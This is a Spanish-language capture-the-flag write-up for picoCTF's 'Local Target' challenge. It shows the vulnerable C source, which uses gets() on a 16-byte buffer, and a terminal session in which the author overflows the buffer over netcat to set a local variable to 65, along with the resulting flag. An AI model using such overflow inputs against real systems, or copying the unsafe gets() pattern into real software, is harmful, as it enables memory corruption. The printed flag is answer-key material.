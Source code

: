 # Local Target

## Descripción
Rompe la pila.
¿Puedes desbordar el buffer y modificar la otra variable local? El programa está disponible [aquí](https://artifacts.picoctf.net/c/519/local-target). Puedes ver el código fuente [aquí](https://artifacts.picoctf.net/c/519/local-target.c). Y conectar con él usando: `nc saturn.picoctf.net 57055`.

## Pistas
- Haz todo lo que puedas para cambiar `num`
- Cuando cambie `num`, vea el valor como hexadecimal

## Solución
```bash
┌──(kali㉿kali)-[~/picoctf/b_exploitation/LocalTarget]
└─$ cat local-target.c
#include <stdio.h>
#include <stdlib.h>



int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}
                                                                                                                                              
┌──(kali㉿kali)-[~/picoctf/b_exploitation/LocalTarget]
└─$ python3      
Python 3.10.8 (main, Nov  4 2022, 09:21:25) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> ord('A')
65
>>> ord('a')
97
>>> print('f' * 18)
ffffffffffffffffff
>>> exit()
                                                                                                                                              
┌──(kali㉿kali)-[~/picoctf/b_exploitation/LocalTarget]
└─$ nc saturn.picoctf.net 51071
Enter a string: ffffffffffffffffff

num is 64
Bye!
                                                                                                                                              
┌──(kali㉿kali)-[~/picoctf/b_exploitation/LocalTarget]
└─$ nc saturn.picoctf.net 51071
Enter a string: fffffffffffffffffff

num is 64
Bye!
                                                                                                                                              
┌──(kali㉿kali)-[~/picoctf/b_exploitation/LocalTarget]
└─$ nc saturn.picoctf.net 51071                         
Enter a string: fffffffffffffffffff

num is 64
Bye!
                                                                                                                                              
┌──(kali㉿kali)-[~/picoctf/b_exploitation/LocalTarget]
└─$ nc saturn.picoctf.net 51071
Enter a string: ffffffffffffffffffff

num is 64
Bye!
                                                                                                                                              
┌──(kali㉿kali)-[~/picoctf/b_exploitation/LocalTarget]
└─$ nc saturn.picoctf.net 51071
Enter a string: fffffffffffffffffffff

num is 64
Bye!
                                                                                                                                              
┌──(kali㉿kali)-[~/picoctf/b_exploitation/LocalTarget]
└─$ nc saturn.picoctf.net 51071
Enter a string: ffffffffffffffffffffff

num is 64
Bye!
                                                                                                                                              
┌──(kali㉿kali)-[~/picoctf/b_exploitation/LocalTarget]
└─$ nc saturn.picoctf.net 51071
Enter a string: fffffffffffffffffffffff

num is 64
Bye!
                                                                                                                                              
┌──(kali㉿kali)-[~/picoctf/b_exploitation/LocalTarget]
└─$ nc saturn.picoctf.net 51071
Enter a string: ffffffffffffffffffffffff

num is 0
Bye!
                                                                                                                                              
┌──(kali㉿kali)-[~/picoctf/b_exploitation/LocalTarget]
└─$ nc saturn.picoctf.net 51071
Enter a string: ffffffffffffffffffffffffA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_ee58441a}
```

>[!solution]
>Para solucionar este reto y obtener la bandera, se busca modificar el valor de la variable `num` declarada justo debajo del arreglo de chars `input` entonces para modificar el valor de la variable que nos interesa con 65 que es el valor de `num` que no permitirá imprimir la bandera se debe hacer un ataque de desbordamiento de búfer y al final de la cadena enviada mandar una A ya que su valor ordinario es 65.

## Bandera
picoCTF{l0c4l5_1n_5c0p3_ee58441a}

## Notas adicionales

>[!danger]
>**Ataque de desbordamiento de búfer**
>Es un error de software que se produce cuando un programa no controla adecuadamente la cantidad de datos que se copian sobre un área de memoria reservada a tal efecto (buffer): Si dicha cantidad es superior a la capacidad preasignada, los bytes sobrantes se almacenan en zonas de memoria adyacentes, sobrescribiendo su contenido original, que probablemente pertenecían a datos o código almacenados en memoria.
>En otras palabras le da al usuario de nuestro programa la forma de sobrescribir una variable a su antojo.

## Referencias
[Desbordamiento de búfer en C](https://parzibyte.me/blog/2018/11/18/desbordamiento-de-bufer-en-c/)